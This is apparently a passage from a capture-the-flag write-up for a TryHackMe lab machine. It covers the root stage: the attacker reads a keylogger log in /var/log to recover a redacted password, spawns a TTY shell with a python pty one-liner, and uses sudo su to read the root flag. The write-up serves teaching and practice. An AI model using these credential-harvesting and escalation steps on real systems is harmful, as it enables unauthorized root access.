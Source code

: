 ```console
```

# root
okey seem like **cth** create logkey file to spy on **errorcauser**. in general, ALL logs is saved in `/var/log`. let checks the log!
```console
cth@badbyte:/home/cth$ cd /var/log
cd /var/log
cth@badbyte:/var/log$ ls
.
.
.
landscape
lastlog
logkeys.log
lxd
syslog
.
.
.
```
`logkeys.log` looks juicy, let check the content of the file
```console
cth@badbyte:/var/log$ cat logkeys.log
cat logkeys.log
Logging started ...

ip a
ls
cd /root
sudo su
__________@sd
cd /root
cat root.txt

Logging stopped at 2020-12-07 13:02:02+0000
```
it seem like `__________@sd` is **cth**'s password. to be able to run `sudo` we need at tty shell. To create a tty shell we run this following command `python3 -c "import pty; pty.spawn('/bin/bash')"`. if our assumetion is correct, then we will gain root access.
```console
cth@badbyte:/var/log$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

cth@badbyte:/var/log$ sudo su                      
sudo su
[sudo] password for cth: ________________sf@sd

root@badbyte:/var/log# cat /root/root.txt
cat /root/root.txt
THM{______________}
```